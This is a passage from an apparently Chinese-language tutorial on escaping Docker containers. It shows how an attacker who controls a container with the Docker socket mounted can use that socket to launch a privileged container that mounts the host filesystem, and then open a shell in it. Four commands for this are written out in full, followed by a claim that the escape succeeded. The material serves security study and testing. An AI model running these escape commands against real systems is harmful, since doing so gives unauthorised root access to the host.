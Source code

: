 ![img](assets/1700701638-0b889ae40be96c333be893e3cf666217.png)  
当攻击者可控的容器内挂载了该文件，我们也可以对其进行逃逸。  
首先我们用如下命令创建一个特权测试容器：

```coffeescript
docker run -itd -v /var/run/docker.sock:/var/run/docker.sock  d6e46aa2470d
```

比如我们控制了上述容器，并发现其挂载了docker.sock：

![image-20201209200847051](assets/1700701638-a703bbc39b3a4c924b5e765823a1c4f7.png)  
那么我们可以利用/var/run/docker.sock创建特权容器（附录5）：

1.  `docker -H unix:///var/run/docker.sock pull alpine:latest`
2.  `docker -H unix:///var/run/docker.sock run -d -it --name rshell -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest`
3.  `docker -H unix:///var/run/docker.sock start rshell`
4.  `docker -H unix:///var/run/docker.sock exec -it rshell /bin/sh`

最终发现逃逸成功：  